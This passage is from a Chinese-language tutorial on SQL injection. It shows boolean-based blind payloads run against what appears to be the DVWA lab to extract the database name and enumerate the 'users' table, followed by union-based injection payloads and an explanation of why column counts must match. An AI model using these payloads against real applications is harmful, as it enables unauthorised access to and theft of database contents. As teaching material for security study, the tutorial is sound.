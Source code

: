 ## 布尔注入

用来快速获取数据

```
SELECT first_name, last_name FROM users WHERE user_id = '1';
SELECT first_name, last_name FROM users WHERE user_id = '99' or 1=1 #'';
SELECT first_name, last_name FROM users WHERE user_id = '99' and 1=1 #'';
```

获取指定信息使用and,获取所有信息使用or

```
1' and ascii (substr (database(),4,1))>96 #真
1' and ascii (substr (database(),4,1))<97 #假
1' and ascii (substr (database(),4,1))<98 #真
ascii 97->a
dvwa

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #

1' and (select count(column_name) from information_schema.columns where table_name=0x7573657273)=8 #
users的16进制
显示存在，说明uers表有8个字段。

```

## 联合注入

union关键词

```
SELECT [colums_name] from [table_name] or UNION SELECT x, y, z-
基于union查询需要保持列数一致这个逻辑
```

输入payload:  'union select 1,2 --'   相当于执行语句  mysql> select user_name , user_password from user_information where user_id=' 'union select 1,2--'';

当应用程序容易受到 SQL 注入攻击并且查询结果在应用程序的响应中返回时，该`UNION`关键字可用于从数据库中的其他表中检索数据。这会导致 SQL 注入 UNION 攻击。

该`UNION`关键字允许您执行一个或多个附加`SELECT`查询并将结果附加到原始查询。例如：

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

此 SQL 查询将返回具有两列的单个结果集，其中包含来自 columns`a`和`b`in`table1`以及 columns`c`和`d`in `table2`的值。

要使`UNION`查询起作用，必须满足两个关键要求：

- 各个查询必须返回相同数量的列。
- 每列中的数据类型必须在各个查询之间兼容。

要进行 SQL 注入 UNION 攻击，您需要确保您的攻击满足这两个要求。这通常涉及弄清楚：
